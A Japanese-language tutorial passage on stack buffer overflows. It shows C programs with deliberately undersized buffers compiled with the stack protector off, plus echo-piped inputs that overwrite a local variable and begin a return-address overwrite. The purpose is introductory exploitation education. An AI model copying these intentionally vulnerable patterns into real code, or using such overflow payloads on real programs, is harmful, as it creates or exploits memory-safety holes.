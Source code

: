 このコードを32bit向け、SSP無効でコンパイル。
```
$ gcc -m32 -fno-stack-protector -o bof1 bof1.c
```
入力にAAAAAAAAAAAAAAAAを入れると変数zeroが任意の整数になる。

### ローカル変数を任意の値に書き換える
`'AAAA' = 0x41414141 = 1094795585`
入力をうまく調整すればzero変数に自由な値を設定できる。

```bof2.c
#include <stdio.h>

int main(int argc, char *argv[]) {
	char buffer[10];
	int zero = 0;
	
	fgets(buffer, 64, stdin);
	printf("zero = %x\n", zero);
	if (zero == 0x12345678) {
		printf("congrats!");
	}
	return 0;
}
```
コンパイル、実効
```
$ gcc -m32 -fno-stack-protector -o bof2 bof2.c
$ echo -e 'AAAAAAAAAA\x12\x34\x56\x78' | ./bof2
$ echo -e 'AAAAAAAAAA\x78\x56\x34\x12' | ./bof2
```
little endianであることに注意

### リターンアドレスの書き換え

リターンアドレスを書き換えることでプログラムの実効一を変更することができる。

```
#include <stdio.h>
#include <string.h>

char buffer[32];

int main(int argc, char *argv[]) {
	char local[32];
	printf("buffer: 0x%x\n", &buffer);
	fgets(local, 128, stdin);
	strcpy(buffer, local);
	return 0;
}
```

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a\x05\x00\x00









    
